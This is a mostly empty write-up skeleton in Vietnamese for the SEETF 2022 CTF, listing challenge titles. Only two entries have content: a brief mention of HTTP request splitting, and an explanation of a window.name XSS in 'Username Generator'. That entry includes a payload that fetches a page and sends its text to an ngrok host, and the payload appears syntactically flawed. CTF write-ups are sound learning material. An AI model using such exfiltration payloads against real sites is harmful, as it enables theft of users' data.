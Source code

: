 # SEECTF 20222
Write up nhằm ép mình hiểu bản vấn đề và giải thích + repoduce lại các bài CTF(đã/chưa làm được). Để tổng quát, dễ hiểu hơn xin tham khảo: https://github.com/zeyu2001/My-CTF-Challenges/tree/main/SEETF-2022/web

# WEB

## Sourceless Guessy Web (Baby Flag)

## Sourceless Guessy Web (RCE Flag)

## Super Secure Requests Forwarder

## Flag Portal (Flag 1)

## Flag Portal (Flag 2)

## Flag 1
CVE HTTP request splitting

## Flag 2

## Username Generator

if(usernameLength > 0): Thì khi usernameLength = 0 biến `{name}` sẽ không được khai báo, từ nó đó sẽ nhận biến toàn cục là `window.name`. `window.name` là biến toàn cục trong javascript chỉ đến tên của tab(window) hiện tại vì thế với payload kiểu: `window.open('/', 'fetch('url').then(response => response.text()).then(fetch("ngrok"+response))')`

## The Pigeon Files

## Star Cereal Episode 3: The Revenge of the Breakfast

## Log4Security

## Charlotte's Web

## XSPwn

# WEB3 - SMART CONTRACTS

## Bonjour

# MISCELLANEOUS

## Angry Zeyu2001

## "as" "df"

